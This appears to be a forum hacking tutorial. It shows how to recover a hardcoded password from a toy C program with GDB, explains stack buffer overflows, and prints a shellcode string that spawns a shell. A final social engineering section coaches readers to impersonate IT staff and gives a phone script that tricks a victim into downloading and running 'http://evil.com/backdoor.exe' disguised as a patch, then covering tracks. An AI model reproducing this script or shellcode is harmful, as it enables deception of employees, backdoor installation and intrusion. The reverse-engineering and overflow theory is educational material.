The process of reverse engineering can be used for many things. It can be used to find hidden data, create shortcuts in programs(skipping registration), or even something as complicated as figuring out how to generate valid serial numbers.Example, let's say someone wrote this horrible password program and keep the password hard coded in plain text into the application. Well, with some simple reverse engineering will get that right out for us... For the sake of the guide I removed the plain text password for now...
Code:
int main(void) {
char pass[100];
char hidden[] = "[REDACTED]";
printf("Enter the password: ");
scanf("%s", pass);
if (strcmp(pass, hidden) == 0) {
printf("Correct password\n");
}
else {
printf("Invalid Password\n");
}
return 0;
}Once we have the compiled binary you can disassemble it, and since I'm both simple and poor I will be using GDB.
Code:
~/Desktop$ gcc -m32 password.c -o pass
~/Desktop$ gdb pass
(gdb) disas main
Dump of assembler code for function main:
0x0804851b <+0>: lea ecx,[esp+0x4]
0x0804851f <+4>: and esp,0xfffffff0
0x08048522 <+7>: push DWORD PTR [ecx-0x4]
0x08048525 <+10>: push ebp
0x08048526 <+11>: mov ebp,esp
0x08048528 <+13>: push ecx
0x08048529 <+14>: sub esp,0x84
0x0804852f <+20>: mov eax,gs:0x14
0x08048535 <+26>: mov DWORD PTR [ebp-0xc],eax
0x08048538 <+29>: xor eax,eax
0x0804853a <+31>: mov DWORD PTR [ebp-0x7f],0x6d6f6f74
0x08048541 <+38>: mov DWORD PTR [ebp-0x7b],0x73796e61
0x08048548 <+45>: mov DWORD PTR [ebp-0x77],0x65726365
0x0804854f <+52>: mov WORD PTR [ebp-0x73],0x7374
0x08048555 <+58>: mov BYTE PTR [ebp-0x71],0x0
0x08048559 <+62>: sub esp,0xc
0x0804855c <+65>: push 0x8048670
0x08048561 <+70>: call 0x80483c0 <printf@plt>Let's now dive into the code and try to find where our string might just be... This may be confusing if you have never touched ASM but I hope to be at least somewhat of a guide.
The left column is the memory space the ASM command resides in, the second column is a GDB debugger alias (example main*10 points at 0x08048525), the third column is the ASM function, and the fourth column are the arguments.
The real fun in the program doesn't start for us until main*26 . This is where we start writing to memory for the variable hidden (which contains the password), the variable pass(and subsequent space in memory) was created around main*14. As you can see we have XOR eax, eax which writes a 0 to eax.
After that we see MOV DWORD PTR [ebp-0x7f],0x6d6f6f74 this is moving the hex data 0x6d6f6f74 into ebp's position minus 0x7f which is 127 in decimal. Then you see another call to MOV DWORD PTR, then again, and again, and again until it is a BYTE PTR. This is essentially the way assembly stores a long string in the stack terminating it with a null byte (0x0) as C typically does. Once this happens the code moves the stack pointer(esp) by 0xc (decimal 12). At that point the code writes 0x8048670 to the stack(The argument for printf is stored there) and calls the function printf at 0x80483c0.
What does this all mean? Well in short we made space for the an empty var to be stored, wrote a lot of hex to the stack, and then called printf... Seem familiar?
Code:
char pass[100];
char hidden[] = "[REDACTED]";
printf("Enter the password: ");At this point it is safe to say all the hex stored was our password string so let's collect it, but remember the stack goes in reverse...
0x73746572636573796e616d6f6f74 now convert this hex into ascii and you get stercesynamoot, makes no sense until you remember that the stack is reversed so you should reverse the string...

Of course this is just a tiny taste of it. An expert could lecture for hours and still once touch the surface, this is a never ending field. The best way to actually learn how to reverse engineer a complex program is to write many complex applications and understand them at a very low level(ASM).
- Buffer Overflows
There are two types of buffer overflows, stack and heap, but the basic idea stays the same. Corrupt data so you can execute code and hopefully obtain a shell. These types of attacks used to be very common until things like ASLR and DEP were implemented and used to make running shell code in a buffer overflow more difficult. ASLR (Address Space Layout Randomization) is designed to move the starting memory positions of code at random. This mitigates the use of things like libc.so to create a shell. To see it in action run ldd against a binary multiple times and watch the memory address change. DEP (Data Execution Prevention) is designed to prevent executable code running in non executable memory locations. By itself it is pretty useless, but used in tandem with ASLR it is almost bullet proof. I wont be covering bypassing ASLR and DEP, but I'm sure with some research you can find more about it.Buffer Overflows (Note: for real life examples and practice read the "Smashing The Stack For Fun And Profit" by Aleph One I only cover the theory behind it)
I will not review how the stack functions in this short section. For that you could easily read the above mentioned paper. But the general idea of a buffer overflow is to find a way to input data into a vulnerable program(Typically through an argument in the program). Then inject data into the program until the target variable's allocated space in memory is full. After this you surpass that limit by adding even more data. This results in the "Stack overflow error" you may have seen in different programs. The most common way to exploit this is to first build a snippet of C or Assembly code that spawns a shell, compile it then convert it to hex. (EX. This is a shell that calls system("/bin/sh/"); "\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80") Once you have your shell the you can now figure out how much data to fill the stack with, followed by the shell, then by 4 bytes of NOP, and finally a return address that forces the program to run our shell. At first this may seem a little complicated but allow me to explain further...
In a compiled language when you declare a variable you typically have to give it a range. This allows the Assembly code to define an uninitialized section of memory. This seems fine, but sometimes programs unintelligently write every input to memory while not understanding what that its boundary should be. By excelling that limit the program writes variable data into the stack (This is where the rest of the assembly instructions should have been).
Here is an example of a program running with no buffer overflow...
|  | You can see that the variable was allowed a significant amount of space before the return address is called. This is how the designer intended it to be. Let's now see what happens when we bypass that and start over writing parts of the stack! |
|  | You can see here that we filled up the memory buffer and actually wrote over the return address. This results in an error where the program can't find the return address. It is trying to locate 0x41414141 in memory. This is because A is represented in hex by 0x41, so the program can't find the memory address "AAAA". Now with the knowledge that we can over run the return address with anything (And assuming DEP and ASLR are not an issue) how could we exploit this? Maybe injecting our own shell? Here's an example of the stack with shell code in it. |
|  | Since we need to fill out the whole alloted memory space(48 bytes) we take our shell code and do basic math, figuring out that we need 21 bytes of padding. This is what the A's represent. Now we see our shell code starting. After this you can see the new return address we defined, this is shown as RRRR on the diagram. RRRR is defined by figuring out what the position of the golden S is, since this is where our shell starts. When the program runs it will place the A's into memory, then the shell code, and finally it will go to the return address that we defined. If done correctly one would have spawned a shell in a program. This is great for gaining a user shell on a remote server or privilege escalation. |
Like stated above this is only theory but there are MANY practical tutorials, real life examples, and of course wargames. I would suggest you check them all out if you are interesting in buffer overflows and how they function at a practical level.
Human Manipulation & Social Engineering
There are some people who may view human manipulation as hacking and there are some who view it simply as another step in a large successful hack. I view it as an art, to do human manipulation is to be a living artifice. Similar to application hacking, manipulation is a very wide field which has hundreds upon hundreds of methods and reasons. But every attack more or less follows the steps shown in the below diagram. Underneath the chart I will attempt to explain some of the techniques and methods behind each step.- Footprinting
As everyone has heard at one point or another "Knowledge is power". Footprinting is simply using the target environment to collect information in hope to aid a future attack. There are many things that are commonly left around in an office that can be used to footprint a target. Here is just a few of them...- Employee IDs, names, and phone numbers
- Printed memos
- Employee passwords (Sticky notes on computer monitors are the bane of OPSEC)
- Project information
- Pay stubs
- Event listings
Anything you can gather that has information should be copied or memorized. This will allow you to understand the mind and schedule of your potential victim.
- Establishing Trust
Those who are auspicious when it comes to hacking tend to have one thing in common, previous knowledge. Gathering information is something that can be done simply over a quick email or phone call. No technical knowledge or hacking required, simply leveraging ignorance, passiveness, and a desire to serve the customer. The fastest way to get someone talking about potentially vital information is to gain a rapport with the soon to be victim. To gain the trust of a victim you can use one of the following methods...- Attempt an empathetic relationship
- Pose as a trusted but obscure position (Example: Employee of branch x or contracted IT specialist)
- Pose as a higher up (Note: this will most likely backfire)
- Psychological Manipulation
Once a rapport has been established and the attacker now has enough qualifying information, it is time to extract as much sensitive information as possible. In this phase of the attacker uses the established trust of the victim to perform acts such as (but not limited to)...- Downloading/installing a backdoor
- Enabling remote access to a server
- Disclosing passwords
- Disclosing confidential user information
Once this has been done the attacker will attempt to move onto the next target or start entering the system through any backdoors put in place by the victim.
- The Exit
To perfect and maintain a clean social engineering attack one must perform the exit. An exit is using all of the tools you have at your disposal to remove evidence that a social engineering attack took place while leaving without causing any suspicion. This can be done by wrapping your true intentions in other actions.For example let's say we are social engineering to have someone install a backdoor. We have already gained rapport and are a trusted entity. Instead of starting off will "Ok please open your bowser and type http://evil.com/backdoor.exe" we will wrap our intentions.
Quote:"Ok so for starters let's go ahead and run some diagnostics... Please press the windows key + R and type Msconfig"
"Ok that's done now what?"
"Can you read off value x?"
"[reply]"
"Hmmm, ok. What I'm going to need you to do is download the XP sp3 patch. Press windows key + R and type http://evil.com/backdoor.exe this should start a download, let me know when you have it..."
"Ok it's on my desktop"
"Just double click that for me and follow the prompts"
"Ok it says it is fully installed"
"Great, now we need to run a few more tests and we can be all done... Open up msconfig and read off value y for me"
"[reply]"
"Ok fantastic and lastly open up command prompt and type ipconfig, what are those values?"
"[reply]"
"Great, great. [name] you did great your machine should be up to date."
"Oh thank you"
"No [name] you just made my day easier, but now I have 3 more offices to do in call visits. Either way have a great day."
By wrapping the attack in both simple and slightly confusing requests we have helped mask the attack and made a clean exit.
Social engineering is a huge field and should be studied as such. There are many great articles on the Internet if you choose to study this school of thought.
- Notes on Human Behavior
Every body functions in certain ways. If you pay attention you can see how someone ticks and with that you can bend them in any way to do as you ask. Instead of listing out all the traits I will just redirect you to an article on human manipulation written by Dinesh Shetty. http://securityxploded.com/social-engine...factor.phpAuthor's Notes
I really do hope whether you are a novice or an "uber 1337 hax0r" that you took something away from this paper. Hacking is a very wide and beautiful subject, something I care very much about. I hope to spread that. I would also REALLY love people to stop asking me how to hack facebooks. Also, if you find any discrepancies or errors, please let me know and I'll correct them. I only desire to get the best information that I can muster to those who seek it. And as always "Hack to learn, not learn to hack"Resources
-
- Hacking Challenges/wargames
-
- Papers/articles
-
- General Resources